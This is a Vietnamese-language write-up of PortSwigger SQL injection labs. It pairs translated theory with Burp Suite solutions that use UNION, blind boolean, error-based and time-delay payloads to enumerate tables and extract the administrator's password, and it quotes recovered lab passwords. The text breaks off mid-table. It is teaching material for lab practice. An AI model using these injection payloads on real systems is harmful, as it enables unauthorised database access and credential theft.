Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Bạn có thể sử dụng một cuộc tấn công UNION để truy xuất kết quả từ một truy vấn được tiêm vào.

Để giải quyết bài lab, hãy hiển thị chuỗi phiên bản cơ sở dữ liệu.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Gifts*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL#` (ta sử dụng `#` vì đang thực hiện tấn công lên database sử dụng MySQL).
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL#`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào từng giá trị `NULL`, ứng dụng không trả về lỗi ở giá trị `NULL` đầu tiên.



10. Theo yêu cầu bài lab, ta cần lấy thông tin về phiên bản của cơ sở dữ liệu. Ta sẽ sử dụng gói tin như sau:

```
'+UNION+SELECT+@@version,NULL#
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin phiên bản của cơ sở dữ liệu và thông báo hoàn thành bài lab.

# Liệt kê nội dung của cơ sở dữ liệu
Hầu hết các loại cơ sở dữ liệu (ngoại trừ Oracle) đều có một tập hợp các khung nhìn được gọi là information schema. Điều này cung cấp thông tin về cơ sở dữ liệu.

Ví dụ, bạn có thể truy vấn information_schema.tables để liệt kê các bảng trong cơ sở dữ liệu:

```sql
SELECT * FROM information_schema.tables
```

Lệnh này trả về kết quả như sau:

```plaintext
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Kết quả này cho thấy có ba bảng, được gọi là Products, Users và Feedback.

Bạn có thể truy vấn information_schema.columns để liệt kê các cột trong từng bảng:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

Lệnh này trả về kết quả như sau:

```plaintext
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Kết quả này cho thấy các cột trong bảng được chỉ định và kiểu dữ liệu của từng cột.

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng tấn công UNION để truy xuất dữ liệu từ các bảng khác.

Ứng dụng có chức năng đăng nhập, và cơ sở dữ liệu chứa một bảng giữ tên người dùng và mật khẩu. Bạn cần xác định tên của bảng này và các cột mà nó chứa, sau đó truy xuất nội dung của bảng để lấy tên người dùng và mật khẩu của tất cả người dùng.

Để giải quyết bài lab, hãy đăng nhập với tư cách `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào từng giá trị `NULL`, ứng dụng không trả về lỗi ở cả 2 giá trị `NULL`.



10. Theo yêu cầu bài lab, ta cần lấy thông tin về phiên bản của cơ sở dữ liệu. Ta sẽ sử dụng gói tin như sau:

```
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

11. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**.



12. Ta phát hiện được bảng `users_olbyfk` có thể có thông tin nhạy cảm, tiếp tục thực hiện truy vấn vào bảng này. Ta chọn một bộ lọc bất kỳ để tạo một truy vấn mới, thay giá trị của `category` và chọn **Forward**:


```
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_olbyfk'--
```

13. Lần này ta phát hiện được cột `username_rzmmxj` và `password_lxongs` có thể chứa thông tin nhạy cảm, tiếp tục tấn công tương tự như bước 11. bằng gói tin như sau:


```
'+UNION+SELECT+username_rzmmxj,password_lxongs+FROM+users_olbyfk--
```

14. Ứng dụng sẽ trả về thông tin đăng nhập của người dùng, bao gồm cả `administrator`. Sử dụng thông tin này để đăng nhập và ứng dụng sẽ thông báo hoàn thành bài lab.



# Blind SQL Injection

Trong phần này, chúng tôi mô tả các kỹ thuật để tìm kiếm và khai thác các lỗ hổng blind SQL injection.

# SQL Injection mù là gì?

SQL Injection mù xảy ra khi một ứng dụng bị lỗ hổng SQL injection, nhưng các phản hồi HTTP của nó không chứa kết quả của truy vấn SQL liên quan hoặc chi tiết của bất kỳ lỗi cơ sở dữ liệu nào.

Nhiều kỹ thuật như tấn công UNION không hiệu quả với lỗ hổng SQL injection mù. Điều này là do chúng dựa vào khả năng xem kết quả của truy vấn đã chèn trong các phản hồi của ứng dụng. Tuy nhiên, vẫn có thể khai thác SQL injection mù để truy cập dữ liệu trái phép, nhưng cần sử dụng các kỹ thuật khác.

# Khai thác SQL injection mù bằng cách kích hoạt phản hồi có điều kiện

Hãy xem xét một ứng dụng sử dụng cookie theo dõi để thu thập phân tích về việc sử dụng. Các yêu cầu đến ứng dụng bao gồm một tiêu đề cookie như sau:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Khi một yêu cầu chứa cookie TrackingId được xử lý, ứng dụng sử dụng một truy vấn SQL để xác định xem đây có phải là người dùng đã biết hay không:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Truy vấn này có lỗ hổng SQL injection, nhưng kết quả từ truy vấn không được trả về cho người dùng. Tuy nhiên, ứng dụng có hành vi khác nhau tùy thuộc vào việc truy vấn có trả về dữ liệu hay không. Nếu bạn gửi một TrackingId được nhận dạng, truy vấn sẽ trả về dữ liệu và bạn nhận được thông báo "Welcome back" trong phản hồi.

Hành vi này đủ để khai thác lỗ hổng SQL injection mù. Bạn có thể truy xuất thông tin bằng cách kích hoạt các phản hồi khác nhau có điều kiện, tùy thuộc vào điều kiện đã chèn.

Để hiểu cách khai thác này hoạt động, giả sử rằng hai yêu cầu được gửi với các giá trị cookie TrackingId sau lần lượt:

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

Giá trị đầu tiên khiến truy vấn trả về kết quả, vì điều kiện chèn AND '1'='1 là đúng. Do đó, thông báo "Welcome back" được hiển thị.

Giá trị thứ hai khiến truy vấn không trả về kết quả, vì điều kiện chèn là sai. Thông báo "Welcome back" không được hiển thị.

Điều này cho phép chúng ta xác định câu trả lời cho bất kỳ điều kiện chèn nào và trích xuất dữ liệu từng phần một.

Ví dụ, giả sử có một bảng tên là Users với các cột Username và Password, và có một người dùng tên là Administrator. Bạn có thể xác định mật khẩu cho người dùng này bằng cách gửi một loạt các đầu vào để kiểm tra mật khẩu từng ký tự một.

Để làm điều này, bắt đầu với đầu vào sau:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
```

Điều này trả về thông báo "Welcome back", cho thấy điều kiện chèn là đúng, do đó ký tự đầu tiên của mật khẩu lớn hơn 'm'.

Tiếp theo, chúng tôi gửi đầu vào sau:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't'
```

Điều này không trả về thông báo "Welcome back", cho thấy điều kiện chèn là sai, do đó ký tự đầu tiên của mật khẩu không lớn hơn 't'.

Cuối cùng, chúng tôi gửi đầu vào sau, trả về thông báo "Welcome back", do đó xác nhận rằng ký tự đầu tiên của mật khẩu là 's':

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

Chúng ta có thể tiếp tục quy trình này để xác định một cách hệ thống toàn bộ mật khẩu cho người dùng Administrator.

> ## Lưu ý
> Hàm SUBSTRING được gọi là SUBSTR trên một số loại cơ sở dữ liệu. Để biết thêm chi tiết, hãy xem bảng cheat sheet về SQL injection.

# Lab: Blind SQL injection with conditional responses

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie đã gửi.

Kết quả của truy vấn SQL không được trả về và không có thông báo lỗi nào được hiển thị. Nhưng ứng dụng bao gồm một thông báo "Welcome back" trên trang nếu truy vấn trả về bất kỳ hàng nào.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột `username` và `password`. Bạn cần khai thác lỗ hổng SQL injection mù để tìm ra mật khẩu của người dùng `administrator`.

Để giải quyết bài lab, hãy đăng nhập như người dùng `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Intruder* và chuyển sang tab **Intruder**.



6. Xác nhận rằng ứng dụng đang gán `TrackingId` cho chúng ta là `TAqC1EGZkomvZwB1`, ta có thể thêm vào sau đó một số thông tin để thực hiện tấn công SQL injection. Bài lab đã cho chúng ta biết trong cơ sở dữ liệu của ứng dụng có một bảng `users` có chứa cột `username` và `password`, từ đây ta có thể thực hiện tấn công bằng gói tin như sau để xác định độ dài mật khẩu của người dùng `administrator`:
```
'+AND+(SELECT+'a'+FROM+users+where+username='administrator'+AND+LENGTH(password)>§§)='a
```
7. Chuyển sang tab **Payloads** để chỉnh sửa gói tin truyền vào mỗi lần thực hiện tấn công. Chọn *Payload type* là `Numbers` và điều chỉnh cho thông tin truyền vào sẽ chạy từ 0 đến 30.



8. Chuyển sang tab **Settings** và di chuyển tới *Grep - Match*, chọn *Flag result...* để đánh dấu các kết quả có từ trùng khớp, sau đó chọn *Clear>Yes* để xoá toàn bộ thông tin hiện có trong danh sách, cuối cùng thêm vào `Welcome back!`. Chọn **Start attack** để bắt đầu thực hiện tấn công.

9. Bảng kết quả sẽ xuất hiện và hiển thị độ dài của phản hồi trong mỗi lần gửi. Ta có thể thấy độ dài này thay đổi khi tham số truyền vào lớn hơn 19, có thể kết luận độ dài mật khẩu là 20.



10. Sau khi biết được độ dài của mật khẩu, ta sẽ thực hiện Brute Force mật khẩu chính xác của người dùng `administrator`. Được biết mật khẩu sẽ chỉ chứa chữ cái thường và chữ số, ta chuyển về tab **Positions** sử dụng gói tin như sau để tấn công:

```
'+AND+(SELECT+SUBSTRING(password,§§,1)+FROM+users+where+username='administrator')='§§
```

11. Lần này, ta sẽ chọn *Attack type* là `Cluster bomb` để thực hiện tấn công vào 2 vị trí payload (ký hiệu §§) cùng 1 lúc. Chuyển qua tab **Payloads**, ở *Payload set* đầu tiên, ta sẽ chọn *Payload type* là `Numbers` chạy từ 1 đến 20 để duyệt toàn bộ vị trí của mật khẩu. Ở *Payload set* thứ 2, ta sẽ chọn *Payload type* là `Brute forcer`, chọn *Min length* và *Max length* là 1, sau đó chọn **Start attack** để thực hiện tấn công.
12. Với bảng thông tin được hiển thị, chuột phải vào `Payload 1` và chọn *Sort>Ascending*, sau đó chuột phải vào `Welcome...` và chọn *Sort>Descending*. Ta sẽ có được mật khẩu cho người dùng `administrator` là `qfmf8cj7yk08tzuhcqnh`.



13. Quay trở lại tab **Proxy**, chọn **Intercept is on** để chuyển nó về **Intercept is off**, sau đó chọn *My account* để mở giao diện đăng nhập. Sử dụng tên người dùng là `administrator` và mật khẩu là `qfmf8cj7yk08tzuhcqnh`. Sau khi đăng nhập thành công, ứng dụng sẽ thông báo hoàn thành bài lab.



## Error-based SQL injection

Error-based SQL injection đề cập đến các trường hợp mà bạn có thể sử dụng thông báo lỗi để trích xuất hoặc suy ra dữ liệu nhạy cảm từ cơ sở dữ liệu, ngay cả trong các ngữ cảnh mù (blind contexts). Khả năng này phụ thuộc vào cấu hình của cơ sở dữ liệu và các loại lỗi mà bạn có thể kích hoạt:

- Bạn có thể khiến ứng dụng trả về một phản hồi lỗi cụ thể dựa trên kết quả của một biểu thức boolean. Bạn có thể khai thác điều này theo cách tương tự như các phản hồi điều kiện đã xem xét trong phần trước. Để biết thêm thông tin, xem Khai thác SQL injection mù bằng cách kích hoạt các lỗi điều kiện.
- Bạn có thể kích hoạt các thông báo lỗi mà hiển thị dữ liệu được trả về bởi truy vấn. Điều này thực tế biến các lỗ hổng SQL injection mù trở thành các lỗ hổng có thể nhìn thấy. Để biết thêm thông tin, hãy xem Trích xuất dữ liệu nhạy cảm qua các thông báo lỗi SQL chi tiết.

## Khai thác SQL injection mù bằng cách kích hoạt lỗi điều kiện

Một số ứng dụng thực hiện các truy vấn SQL nhưng hành vi của chúng không thay đổi, bất kể truy vấn có trả về dữ liệu hay không. Kỹ thuật trong phần trước sẽ không hiệu quả, vì việc tiêm các điều kiện boolean khác nhau không tạo ra sự khác biệt đối với phản hồi của ứng dụng.

Thường có thể khiến ứng dụng trả về một phản hồi khác nhau tùy thuộc vào việc có xảy ra lỗi SQL hay không. Bạn có thể chỉnh sửa truy vấn để nó gây ra lỗi cơ sở dữ liệu chỉ khi điều kiện là đúng. Rất thường xuyên, một lỗi không được xử lý do cơ sở dữ liệu ném ra gây ra một số khác biệt trong phản hồi của ứng dụng, chẳng hạn như một thông báo lỗi. Điều này cho phép bạn suy ra tính đúng đắn của điều kiện đã truyền vào.

Để xem cách này hoạt động, giả sử rằng hai yêu cầu được gửi với các giá trị cookie TrackingId lần lượt như sau:

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

Các đầu vào này sử dụng từ khóa `CASE` để kiểm tra một điều kiện và trả về một biểu thức khác nhau tùy thuộc vào việc biểu thức đó đúng hay sai:

- Với đầu vào đầu tiên, biểu thức `CASE` được đánh giá là `a`, không gây ra lỗi.
- Với đầu vào thứ hai, biểu thức `CASE` được đánh giá là 1/0, gây ra lỗi chia cho 0.

Nếu lỗi này gây ra sự khác biệt trong phản hồi HTTP của ứng dụng, bạn có thể sử dụng điều này để xác định xem điều kiện đã tiêm có đúng hay không.

Sử dụng kỹ thuật này, bạn có thể trích xuất dữ liệu bằng cách kiểm tra từng ký tự một:

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

> ## Lưu ý
> Có nhiều cách khác nhau để kích hoạt lỗi điều kiện, và các kỹ thuật khác nhau hoạt động tốt nhất trên các loại cơ sở dữ liệu khác nhau. Để biết thêm chi tiết, hãy xem bảng cheat sheet về SQL injection.

# Lab: Blind SQL injection with conditional errors

## Mô tả bài lab

Bài lab này chứa một lỗ hổng blind SQL injection. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích, và thực hiện một truy vấn SQL chứa giá trị của cookie đã được gửi.

Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi khác biệt dựa trên việc truy vấn có trả về bất kỳ hàng nào hay không. Nếu truy vấn SQL gây ra lỗi, thì ứng dụng sẽ trả về một thông báo lỗi tùy chỉnh.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột là `username` và `password`. Bạn cần khai thác lỗ hổng blind SQL injection để tìm ra mật khẩu của người dùng `administrator`.

Để giải quyết bài lab, hãy đăng nhập bằng người dùng `administrator`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Gifts*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và *Action>Send to Intruder*, sau đó chuyển sang tab **Repeater**.



6. Xác nhận rằng ứng dụng đang gán `TrackingId` cho chúng ta là `fR0EUzEygDeLIwmH`, ta có thể thêm vào sau đó một số thông tin để thực hiện tấn công SQL injection. Được biết ứng dụng không trả về bất kỳ cột thông tin nào từ truy vấn SQL, vậy nên ta cần nối ký tự vào `TrackingId` này để tạo thông báo lỗi. Trước hết ta cần xác nhận loại cơ sở dữ liệu đang được nhắm tới, ta có thể thực hiện điều đó bằng cách thêm `'+'` hoặc `'||'` vào phần cuối của `TrackingId`, từ đây biết được `'||'` không phát sinh lỗi và xác định được ứng dụng sử dụng cơ sở dữ liệu Oracle.

7. Di chuyển sang tab **Intruder**, bài lab đã cho chúng ta biết trong cơ sở dữ liệu của ứng dụng có một bảng `users` có chứa cột `username` và `password`, từ đây ta có thể thực hiện tấn công bằng gói tin như sau để xác định độ dài mật khẩu của người dùng `administrator`, gói tin sẽ tạo lỗi *divide by zero* nếu độ dài mật khẩu không chính xác và ứng dụng sẽ chạy bình thường nếu độ dài chính xác:
```
'||(SELECT CASE WHEN LENGTH(password)=§§ THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```
8. Chuyển sang tab **Payloads** để chỉnh sửa gói tin truyền vào mỗi lần thực hiện tấn công. Chọn *Payload type* là `Numbers` và điều chỉnh cho thông tin truyền vào sẽ chạy từ 1 đến 30.



0. Chuyển sang tab **Settings** và di chuyển tới *Grep - Match*, chọn *Flag result...* để đánh dấu các kết quả có từ trùng khớp, sau đó chọn *Clear>Yes* để xoá toàn bộ thông tin hiện có trong danh sách. Cuối cùng thêm vào `OK` và bỏ tích ở *Exclude HTTP headers*, điều này giúp ta dễ dàng xác định khi nào ứng dụng hoạt động bình thường (trả về HTTP header `OK`). Chọn **Start attack** để bắt đầu thực hiện tấn công.

10. Bảng kết quả sẽ xuất hiện và hiển thị độ dài của phản hồi trong mỗi lần gửi. Ta có thể thấy độ dài này thay đổi khi tham số truyền vào lớn hơn 19, có thể kết luận độ dài mật khẩu là 20.



11. Sau khi biết được độ dài của mật khẩu, ta sẽ thực hiện Brute Force mật khẩu chính xác của người dùng `administrator`. Được biết mật khẩu sẽ chỉ chứa chữ cái thường và chữ số, ta chuyển về tab **Positions** sử dụng gói tin như sau để tấn công:

```
'||(SELECT CASE WHEN SUBSTR(password,§§,1)='§§' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```

12. Lần này, ta sẽ chọn *Attack type* là `Cluster bomb` để thực hiện tấn công vào 2 vị trí payload (ký hiệu §§) cùng 1 lúc. Chuyển qua tab **Payloads**, ở *Payload set* đầu tiên, ta sẽ chọn *Payload type* là `Numbers` chạy từ 1 đến 20 để duyệt toàn bộ vị trí của mật khẩu. Ở *Payload set* thứ 2, ta sẽ chọn *Payload type* là `Brute forcer`, chọn *Min length* và *Max length* là 1, sau đó chọn **Start attack** để thực hiện tấn công.
13. Với bảng thông tin được hiển thị, chuột phải vào *Payload 1* và chọn *Sort>Ascending*, sau đó chuột phải vào *OK* và chọn *Sort>Descending*. Ta sẽ có được mật khẩu cho người dùng `administrator` là `llwv4re8t5s0l7dd701u`.



14. Quay trở lại tab **Proxy**, chọn **Intercept is on** để chuyển nó về **Intercept is off**, sau đó chọn *My account* để mở giao diện đăng nhập. Sử dụng tên người dùng là `administrator` và mật khẩu là `llwv4re8t5s0l7dd701u`. Sau khi đăng nhập thành công, ứng dụng sẽ thông báo hoàn thành bài lab.



# Trích xuất dữ liệu nhạy cảm thông qua các thông báo lỗi SQL chi tiết

Việc cấu hình sai cơ sở dữ liệu đôi khi dẫn đến các thông báo lỗi chi tiết. Những thông tin này có thể hữu ích cho kẻ tấn công. Ví dụ, hãy xem xét thông báo lỗi sau đây, xuất hiện sau khi chèn một dấu nháy đơn vào tham số id:
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```
Điều này cho thấy truy vấn đầy đủ mà ứng dụng đã tạo ra bằng cách sử dụng đầu vào của chúng ta. Chúng ta có thể thấy rằng trong trường hợp này, chúng ta đang chèn vào một chuỗi được bao quanh bởi dấu nháy đơn trong một câu lệnh `WHERE`. Điều này giúp dễ dàng hơn trong việc xây dựng một truy vấn hợp lệ chứa mã độc. Việc chú thích phần còn lại của truy vấn sẽ ngăn không cho dấu nháy đơn thừa làm hỏng cú pháp.

Thỉnh thoảng, bạn có thể khiến ứng dụng tạo ra thông báo lỗi chứa một số dữ liệu được trả về bởi truy vấn. Điều này hiệu quả biến một lỗ hổng SQL injection ẩn thành một lỗ hổng rõ ràng.

Bạn có thể sử dụng hàm `CAST()` để đạt được điều này. Nó cho phép bạn chuyển đổi một kiểu dữ liệu sang kiểu dữ liệu khác. Ví dụ, hãy tưởng tượng một truy vấn chứa câu lệnh sau:
```
CAST((SELECT example_column FROM example_table) AS int)
```
Thường thì, dữ liệu mà bạn đang cố gắng đọc là một chuỗi ký tự. Việc cố gắng chuyển đổi nó sang một kiểu dữ liệu không tương thích, chẳng hạn như một số nguyên (`int`), có thể gây ra lỗi tương tự như sau:
```
ERROR: invalid input syntax for type integer: "Example data"
```
Loại truy vấn này cũng có thể hữu ích nếu một giới hạn ký tự ngăn bạn kích hoạt các phản hồi có điều kiện.

# Lab: Visible error-based SQL injection

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích, và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi. Kết quả của truy vấn SQL không được trả về.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`. Để giải quyết bài lab này, hãy tìm cách làm rò rỉ mật khẩu cho người dùng `administrator`, sau đó đăng nhập vào tài khoản đó.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**, chọn **Open browser**, sau đó truy cập vào URL của bài lab và quay lại với giao diện của BurpSuite.
3. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater*, sau đó chuyển sang tab **Repeater**.
4. Chọn **Send** để gửi thử gói tin một lần và chọn chế độ hiển thị cho phía phẩn hồi là **Render**.



5. Thêm `'` vào sau giá trị của `TrackingId` sau đó chọn **Send** để thử nghiệm lỗi của ứng dụng.



6. Có thể thấy, lỗi đã hiển thị chi tiết truy vấn SQL mà cơ sở dữ liệu đã thực hiện, ta sẽ bắt đầu làm việc từ đây. Ta đang can thiệp vào mệnh đề `WHERE` nên ta cần nội dung gói tin sẽ trả về dạng `boolean`, ví dụ như:
```
' AND 1=(SELECT 1)--
```
- `SELECT 1` sẽ trả về giá trị là `1`, khiến mệnh đề đúng và `--` sử dụng để loại bỏ dâu `'` trong truy vấn tránh gặp lỗi.
7. Vì ứng dụng trả về lỗi chi tiết của truy vấn SQL, ta có thể sử dụng điều này để khai thác thông tin nhạy cảm khi đã biết có tồn tại một bảng `users` chứ `username` và `password`. Trong cơ sở dữ liệu, mật khẩu người dùng sẽ có kiểu dữ liệu là `char`, ta có thể sử dụng ```CAST((SELECT username FROM users LIMIT 1) as int)``` để phát sinh lỗi sai định dạng.



8. Từ thông báo lỗi ta có thể thấy người dùng đầu tiên trong bảng `users` là `administrator`. Sử dụng một gói tin tương tự ta có thể khai thác được mật khẩu của người dùng này. Ta có thể quay lại tab **Proxy** và sử dụng gói tin sau thay vào giá trị của `TrackingId` để hiển thị mật khẩu lên màn hình qua thông báo lỗi.

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) as int)--
```

9. Sau khi chọn **Forward**, chọn **Intercept is on** để chuyển nó về **Intercept is off** và chuyển qua giao diện ứng dụng, ta sẽ nhận được mật khẩu của người dùng `administrator` là `ibok9hcafpt1c81c25uz`.



10. Reload ứng dụng, sau đó chọn **My account** và đăng nhập bằng thông tin đăng nhập vừa nhận được. Ứng dụng sẽ hiển thị đăng nhập thành công và thông báo hoàn thành bài lab.



# Khai thác lỗ hổng blind SQL injection bằng cách kích hoạt độ trễ thời gian

Nếu ứng dụng bắt được các lỗi cơ sở dữ liệu khi truy vấn SQL được thực thi và xử lý chúng một cách trơn tru, sẽ không có bất kỳ sự khác biệt nào trong phản hồi của ứng dụng. Điều này có nghĩa là kỹ thuật trước đó để gây ra lỗi có điều kiện sẽ không hiệu quả.

Trong tình huống này, thường có thể khai thác lỗ hổng blind SQL injection bằng cách kích hoạt độ trễ thời gian tùy thuộc vào việc điều kiện chèn vào là đúng hay sai. Vì các truy vấn SQL thường được xử lý đồng bộ bởi ứng dụng, việc trì hoãn thực thi truy vấn SQL cũng sẽ trì hoãn phản hồi HTTP. Điều này cho phép bạn xác định tính đúng đắn của điều kiện chèn vào dựa trên thời gian nhận được phản hồi HTTP.

Các kỹ thuật để kích hoạt độ trễ thời gian là cụ thể cho từng loại cơ sở dữ liệu được sử dụng. Ví dụ, trên Microsoft SQL Server, bạn có thể sử dụng các câu lệnh sau để kiểm tra một điều kiện và kích hoạt độ trễ tùy thuộc vào việc biểu thức là đúng hay sai:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

Câu lệnh đầu tiên không kích hoạt độ trễ, vì điều kiện 1=2 là sai.
Câu lệnh thứ hai kích hoạt độ trễ 10 giây, vì điều kiện 1=1 là đúng.
Sử dụng kỹ thuật này, chúng ta có thể truy xuất dữ liệu bằng cách kiểm tra từng ký tự một:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

> ## Lưu ý
> Có nhiều cách để kích hoạt độ trễ thời gian trong các truy vấn SQL, và các kỹ thuật khác nhau áp dụng cho các loại cơ sở dữ liệu khác nhau. Để biết thêm chi tiết, hãy xem bảng gian lận SQL injection.

# Lab: Blind SQL injection with time delays and information retrieval

## Mô tả bài lab

Bài lab này chứa một lỗ hổng blind SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi khác nhau dựa trên việc truy vấn có trả về bất kỳ hàng nào hay gây ra lỗi. Tuy nhiên, vì truy vấn được thực thi đồng bộ, có thể kích hoạt độ trễ thời gian có điều kiện để suy ra thông tin.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`. Bạn cần khai thác lỗ hổng blind SQL injection để tìm ra mật khẩu của người dùng `administrator`.

Để giải quyết bài lab này, hãy đăng nhập vào tài khoản người dùng `administrator`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Tech gifts*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và *Action>Send to Intruder*, sau đó chuyển sang tab **Repeater**.



6. Xác nhận rằng ứng dụng đang gán `TrackingId` cho chúng ta là `wP8ZmH7Di8tWDBqB`, ta có thể thêm vào sau đó một số thông tin để thực hiện tấn công SQL injection. Được biết ứng dụng không trả về bất kỳ cột thông tin nào từ truy vấn SQL, đồng thời cũng không trả về thông báo lỗi. Tuy vậy truy vấn SQL vẫn được thực hiện và từ đó ta có thể kích hoạt độ trễ có điều kiện để xác định các thông tin nhạy cảm. Trước hết cần xác định loại cơ sở dữ liệu đang được sử dụng, ta có thể thử các gói tin khác nhau nối vào giá trị của `TrackingId` để thực hiện điều này:


| Database   | Payload                                    |
| ---------- | ------------------------------------------ |
| Oracle     | `'%3B+dbms_pipe.receive_message(('a'),10)` |
